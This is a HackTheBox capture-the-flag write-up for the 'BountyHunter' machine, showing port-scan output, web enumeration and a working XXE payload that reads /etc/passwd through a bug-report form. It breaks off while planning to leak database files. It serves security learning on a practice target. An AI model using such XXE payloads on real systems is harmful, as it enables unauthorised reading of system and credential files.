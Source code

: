 # BountyHunter
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/613afa1f-de50-44cd-8b0c-25fa9d6abf57)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.100 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-17 02:42 PDT
Nmap scan report for 10.10.11.100
Host is up (0.028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d44cf5799a79a3b0f1662552c9531fe1 (RSA)
|   256 a21e67618d2f7a37a7ba3b5108e889a6 (ECDSA)
|_  256 a57516d96958504a14117a42c1b62344 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.64 seconds
```

1. Based from the nmap results, the machine runs a web application and opens ssh login.

> WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d55476aa-4511-4a38-ac70-f16e5f0a568c)


2. After ran dirbuster, found several dirs and files.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/498ca093-98a1-41ed-ba0b-f68309c43caf)


3. Long story short, **portal.php** AND **db.php** could be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0f7b0715-f102-44ff-b71f-03dc15d99366)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a36e25bd-c459-480d-be95-2b4864740626)



![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3150f267-374d-4dd8-937c-5486ea6e4577)




4. Let's start by sending random data and intercept the request using burpsuite.

> DATA TO SEND

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ed4ca98a-cc06-410b-a04a-5113303739b7)


> RESULT IN BURP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/02bd4583-bd02-4cf9-9220-69149bc0678b)


5. Interesting, our data is url encoded (judging from %3D), let's throw that to cyberchef.

> RESULT IN CYBERCHEF

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/19e5c515-9049-458e-8fc2-e1d63737a46a)


6. Interesting! Our request is formatted in xml. This should be our foothold if we can do XXE. Let's try the basic payload to test if it is vuln to XXE.

> COMMON ONE

```
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
```

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<bugreport>
<title>aa</title>
	<cwe>&file;</cwe>
	<cvss>aaaa</cvss>
	<reward>80000</reward>
</bugreport>
```

7. Encode it to base64 + url. Send it afterwards.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d077e50c-6077-44f0-a540-4cd7613aace0)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3c8b5c2c-cffc-4938-9f79-bf029aa905ba)



8. Turns out, it does vulnerable to XXE.
9. Nice, this should be our foothold.
10. Noticed, we already leak the username.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0cea2752-0ecb-4f74-adee-0d95b3d43c3d)


11. Remembering that this is an Apache's server and it stores data, hence we can leak database file at `/var/www/html`.

> RESULT






